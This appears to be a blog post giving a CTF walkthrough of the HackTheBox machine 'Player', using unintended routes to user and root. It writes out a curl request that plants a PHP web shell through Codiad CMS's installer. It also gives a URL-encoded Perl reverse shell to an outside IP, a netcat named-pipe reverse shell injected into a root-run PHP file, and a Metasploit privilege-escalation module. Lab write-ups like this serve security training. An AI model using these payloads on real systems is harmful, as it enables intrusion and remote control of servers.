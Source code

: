 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/dWyPVwu9_6g/0.jpg
layout: post
media_subpath: /assets/posts/2020-01-18-player-hackthebox
tags:
- codiad cms
- hackthebox
- linux
- web
title: Player @ HackTheBox
---
```


Player is a hard [box](https://www.hackthebox.eu/home/machines/profile/196), that we solved in unintended ways that are partly patched now.

{% youtube dWyPVwu9_6g %}

## User & Root

Enumerating subdomains we find: staging.player.htb, dev.player.htb, chat.player.htb. On dev.player.htb we have [codiad cms](https://github.com/Codiad/Codiad), where we can exploit the installer under the condition that a writable directory for the webserver exists, resulting in a shell as www-data (thanks [mprox](https://www.hackthebox.eu/home/users/profile/16690)):

```
# Upload webshell
curl -X POST -d 'project_name=<?php echo system($_GET['xcmd']);?>' -d 'project_path=/var/www/html/launcher/xct/data' -d 'path=/var/www/html/launcher/xct' http://dev.player.htb/components/install/process.php
# Run command
curl http://10.10.10.145/launcher/xct/data/projects.php?xcmd=ls
?php/*|
[{"name":"www-data
www-data","path":"\/var\/www\/html\/launcher\/xct\/data"}]
|*/?>
# Get shell (url encoded perl reverse shell)
curl http://10.10.10.145/launcher/xct/data/projects.php?xcmd=\%70\%65\%72\%6c\%20\%2d\%65\%20\%27\%75\%73\%65\%20\%53\%6f\%63\%6b\%65\%74\%3b\%24\%69\%3d\%22\%31\%30\%2e\%31\%30\%2e\%31\%34\%2e\%35\%22\%3b\%24\%70\%3d\%38\%30\%30\%30\%3b\%73\%6f\%63\%6b\%65\%74\%28\%53\%2c\%50\%46\%5f\%49\%4e\%45\%54\%2c\%53\%4f\%43\%4b\%5f\%53\%54\%52\%45\%41\%4d\%2c\%67\%65\%74\%70\%72\%6f\%74\%6f\%62\%79\%6e\%61\%6d\%65\%28\%22\%74\%63\%70\%22\%29\%29\%3b\%69\%66\%28\%63\%6f\%6e\%6e\%65\%63\%74\%28\%53\%2c\%73\%6f\%63\%6b\%61\%64\%64\%72\%5f\%69\%6e\%28\%24\%70\%2c\%69\%6e\%65\%74\%5f\%61\%74\%6f\%6e\%28\%24\%69\%29\%29\%29\%29\%7b\%6f\%70\%65\%6e\%28\%53\%54\%44\%49\%4e\%2c\%22\%3e\%26\%53\%22\%29\%3b\%6f\%70\%65\%6e\%28\%53\%54\%44\%4f\%55\%54\%2c\%22\%3e\%26\%53\%22\%29\%3b\%6f\%70\%65\%6e\%28\%53\%54\%44\%45\%52\%52\%2c\%22\%3e\%26\%53\%22\%29\%3b\%65\%78\%65\%63\%28\%22\%2f\%62\%69\%6e\%2f\%73\%68\%20\%2d\%69\%22\%29\%3b\%7d\%3b\%27\%20
```

After getting shell metasploits "exploit/linux/local/bpf\_sign\_extension\_priv\_esc" could be used to get root and grab both flags.

Another way for root is to adjust "dee8dc8a47256c64630d803a4c40786g.php" so it gives a shell, because it is included in "/var/lib/playbuff/buff.php", which is called periodically as root (thanks [InfoSecJack](https://twitter.com/InfoSecJack)):

```
printf '%s\n%s' '<?php echo system("mknod /tmp/x p;/bin/sh 0</tmp/x | nc <ip> 8000 1>/tmp/x");?>' "$(cat dee8dc8a47256c64630d803a4c40786g.php)" > dee8dc8a47256c64630d803a4c40786g.php
```